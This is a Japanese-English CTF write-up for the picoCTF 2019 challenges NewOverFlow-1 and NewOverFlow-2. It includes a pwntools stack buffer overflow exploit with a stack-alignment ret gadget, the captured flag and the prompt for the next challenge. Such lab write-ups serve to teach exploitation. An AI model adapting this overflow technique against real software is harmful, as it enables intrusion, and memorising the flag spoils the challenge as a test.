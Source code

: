 
<br /><br />
<br /><br />
## [Binary Exploitation]: NewOverFlow-1 (200 points)
- - -
### Challenge
> Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program.
<br /><br />
Hint: Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes

Attachment:

- vuln (ELF 64-bit)
- vuln.c

<br />
### Solution
picoCTFのサーバは、Ubuntu 18.04であるところがポイントです。16 byte alignmentしないと解けません。


```Python
#!/usr/bin/env python
from pwn import *

if 1:
    s=ssh(host='2019shell1.picoctf.com', user='', password='')
    s.set_working_directory('/problems/newoverflow-1_3_e53f871ba121b62d35646880e2577f89')
    p=s.process('./vuln')

ret = 0x00000000004005de

payload = ''
payload += b'A' * 64
payload += b'B' * 8
payload += p64(ret)  # for stack alignment
payload += p64(0x0000000000400767)  # flag()

p.sendlineafter("flag: \n", payload)
print p.recvall()
```

Flag: `picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_bfd48203}`



<br /><br />
<br /><br />
## [Binary Exploitation]: NewOverFlow-2 (250 points)
- - -
### Challenge
> Okay now lets try mainpulating arguments. program.
<br /><br />
Hint: Arguments aren't stored on the stack anymore ;)
